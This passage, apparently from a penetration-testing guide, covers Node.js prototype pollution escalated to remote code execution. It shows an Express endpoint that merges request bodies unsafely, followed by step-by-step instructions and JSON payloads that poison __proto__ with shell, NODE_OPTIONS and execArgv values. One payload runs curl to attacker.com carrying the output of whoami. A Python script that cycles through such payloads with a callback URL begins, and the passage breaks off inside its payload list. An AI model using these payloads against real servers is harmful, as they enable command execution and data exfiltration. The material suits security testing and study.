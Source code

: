        app.post('/api/update', (req, res) => {
           const user = { name: 'Default' };
           merge(user, req.body);
           
           // Log to demonstrate pollution
           console.log('User object:', user);
           console.log('Empty object test:', {});
           
           res.json({ success: true });
       });

       app.listen(3000, () => console.log('Server listening on port 3000'));
       ```

    2. **RCE via child_process pollution**:
       - Step 1: Confirm successful prototype pollution on the server
       - Step 2: Target properties that affect how child_process executes commands
       - Step 3: Create a payload targeting `shell` or `NODE_OPTIONS` properties:
       ```json
       {
         "username": "user",
         "__proto__": {
           "shell": "node",
           "NODE_OPTIONS": "--require /proc/self/environ"
         }
       }
       ```
       - Step 4: Send the payload to an endpoint that merges user data
       - Step 5: Trigger code that executes child_process.spawn or similar functions
       - Example RCE payload using execArgv:
       ```json
       {
         "__proto__": {
           "execArgv": [
             "--eval=require('child_process').execSync('curl http://attacker.com/$(whoami)')"
           ]
         }
       }
       ```
       - Testing insight: Successful RCE may require multiple pollution attempts targeting different properties
       - Python script for testing child_process pollution:
       ```python
       import requests
       import time
       
       def test_child_process_pollution(url, callback_url):
           # Different child_process pollution payloads to try
           payloads = [
               # Payload 1: shell and env.EVIL
               {
                   "__proto__": {
                       "shell": "node",
                       "env": {
                           "EVIL": "require('child_process').execSync(`curl ${callback_url}/$(whoami)`)"
                       },
                       "NODE_OPTIONS": "--require /proc/self/environ"
                   }
               },
               # Payload 2: execArgv
               {